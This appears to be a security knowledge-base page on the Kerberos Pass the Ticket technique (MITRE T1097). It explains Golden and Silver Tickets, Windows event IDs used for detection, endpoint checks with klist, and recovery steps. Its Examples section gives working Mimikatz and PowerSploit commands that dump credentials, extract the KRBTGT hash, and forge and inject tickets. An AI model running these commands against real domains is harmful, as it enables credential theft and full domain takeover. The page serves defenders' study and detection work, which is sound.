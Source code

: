 ﻿# T1097 - Pass the Ticket

## Attributes
**Tactic**: Lateral Movement
**Effective Permissions**: Not Specified
**Data Sources**: Authentication logs

## Description
Pass the Ticket is an attack method that can allow an attacker to authenticate to a system using Kerberos tickets without knowledge of a users password.

This attack falls into two categories, Golden Ticket and Silver Ticket.

Golden Tickets are obtained on a Domain Controller from the Key Distribution Service account NTLM hash, this account is named KRBTGT. A Golden Ticket will enable an attacker to generate a TGT for any account in Active Directory.

Silver Tickets attacks are performed by crafting a TGS for a service account. A service account is a special account that is used by an application, such as SQL Server. In order to create a forged TGS the password or password hash must be known by an attacker.

## Tools to Perform Attack
- Mimikatz
  - A tool that has the capability to gather credential data from a Windows System (Passwords, NTLM hash, TGT, TGS).
  - Mimikatz exists as an executable that can be run on Windows directly.
- PowerSploit
  - Powershell post-exploitation framework
  - Mimikatz can be loaded into memory using ```Invoke-Mimikatz```
- Empire
  - Powershell and Python post-exploitation framework.
  - Can leverage its own implementation of Mimikatz to obtain and use Silver and Golden tickets.

### Examples
The following command is run using PowerSploit, it can execute Mimikatz on remote computers to gather credentials:

```powershell
Invoke-Mimikatz -DumpCreds -ComputerName @("computer1", "computer2")
```

The following is run in Mimikatz, these commands will allow an attacker to retrieve the hash of the KRBTGT account from a Domain Controller.

```shell
 privilege::debug
 lsadump::lsa /inject /name:krbtgt
```

The following command is run in Mimikatz, it can be used to create a Golden Ticket:

```shell
kerberos::golden /admin:ADMIINACCOUNTNAME /domain:DOMAINFQDN /id:ACCOUNTRID /sid:DOMAINSID /krbtgt:KRBTGTPASSWORDHASH /ptt
```

The following command is run in Mimikatz, it can be used to create a Silver Ticket for a CIFS service on the server adsmswin2k8r2.lab.adsecurity.org:

```shell
kerberos::golden /admin:LukeSkywalker /id:1106 /domain:lab.adsecurity.org /sid:S-1-5-21-1473643419-774954089-2222329127 /target:adsmswin2k8r2.lab.adsecurity.org /rc4:d7e2b80507ea074ad59f152a1ba20458 /service:cifs /ptt
```

### Other Information
#### Kerberos Protocol

The following diagram shows the steps taken to authenticate to a server using Kerberos.

![Simple Kerberos Diagram](https://www.varonis.com/blog/wp-content/uploads/2018/07/Kerberos-Graphics-1-v2-787x790.jpg)

#### Types of Tickets

The Ticket Granting Ticket (TGT) is a ticket used to prove to the Key Distribution Center (KDC), located on the Domain Controller, that a user is authenticated. The contents of the TGT are encrypted with the KRBTGT NTML hash, this ticket should only be read by the KDC.

The Ticket Granting Service (TGS) is a ticket used to prove to a service that a user is authenticated, this ticket contains data that can only be decrypted by the service.

## Detection
### Monitoring
#### Kerberos Logs

- The following Windows Event IDs are related to Kerberos:

  - Event [ID 4768](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768) is created for every TGT request.

  - Event [ID 4769](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4769) is created for every TGS request.

  - Event [ID 4770](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4770) is created for every TGT renew.

Using these event ID the analyst must look for anything out of the ordinary. For example if a TGS request or TGT renew is seen the analyst can look back in time to check if there is TGT request that match's the computer and user.

#### Golden Ticket Detection
- Golden Ticket events may have one of these issues:
  - The Account Domain field is blank when it should be DOMAIN.
  - The Account Domain field is DOMAIN FQDN when it should be DOMAIN.

- Event ID: 4624 (Account Logon)
  - Account Domain is FQDN & should be short domain name
  - Account Domain:        LAB.ADSECURITY.ORG   [ADSECLAB]

- Event ID: 4672 (Admin Logon)
  - Account Domain is blank & should be short domain name
  - Account Domain:        _______________   [ADSECLAB]

#### Silver Ticket Detection
- Silver Ticket events may have one of these issues:
  - The Account Domain field is blank when it should be DOMAIN
  - The Account Domain field is DOMAIN FQDN when it should be DOMAIN.

- Event ID: 4624 (Account Logon)
  - Account Domain is FQDN & should be short domain name
  - Account Domain:        LAB.ADSECURITY.ORG   [ADSECLAB]

- Event ID: 4634 (Account Logoff)
  - Account Domain is blank & should be short domain name
  - Account Domain:        _______________   [ADSECLAB]

- Event ID: 4672 (Admin Logon)
  - Account Domain is blank & should be short domain name
  - Account Domain:        _______________   [ADSECLAB]

### Detecting on Endpoint
A blog [post](https://blog.stealthbits.com/detect-pass-the-ticket-attacks) writes about a useful way to detect pass the ticket attacks on an endpoint machine.

The steps layed out in the blog post are as follows:

1. Look at the current logon sessions on that system
    - A Powershell [Get-LoggedOnUsers](https://github.com/tmmtsmith/Powershell/blob/master/Get-LoggedOnUsers.ps1) function can be used to view current logged on users.
2. Use the klist command to inspect the Kerberos tickets associated with that session
    - ```klist -li NAME``` command can be used to get associated tickets.
3. Look for Kerberos tickets that do not match the user associated with the session.  If found, that means those were injected into memory and a pass-the-ticket attack is afoot.  
  
#### Example
The following shows at example. The first red rectangle is a session for a user Micheal. However, the second rectangle shows from the ```klist``` command that the TGT is for the user Gene.
![Detect Pass The Ticket Example](https://blog.stealthbits.com/wp-content/uploads/2019/02/image-28.png)

## Mitigation
### Logon Rights
There should be a minimum amount of Domain Administrators that have the right to logon to a DC.

### Golden Ticket Recovery
To recover from a Golden Ticket attack the KRBTGT user account password will have to be reset twice.

### Silver Ticket Recovery
To recover from a Silver Ticket attack the service account password will have to be reset.

## References
- [T1097](https://attack.mitre.org/techniques/T1097/)
- [How does Kerberos work? – Theory](https://www.tarlogic.com/en/blog/how-kerberos-works/)
- [How to attack Kerberos?](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/)
- [Silver Ticket Attack](https://adsecurity.org/?p=2011)
- [Good Video on Kerberos Protocol](https://www.youtube.com/watch?v=WXgKiiFqJbI)
- [Detecting Forged Kerberos Ticket (Golden Ticket & Silver Ticket) Use in Active Directory](https://adsecurity.org/?p=1515)
- [Detect Pass the Ticket Attacks](https://blog.stealthbits.com/detect-pass-the-ticket-attacks)
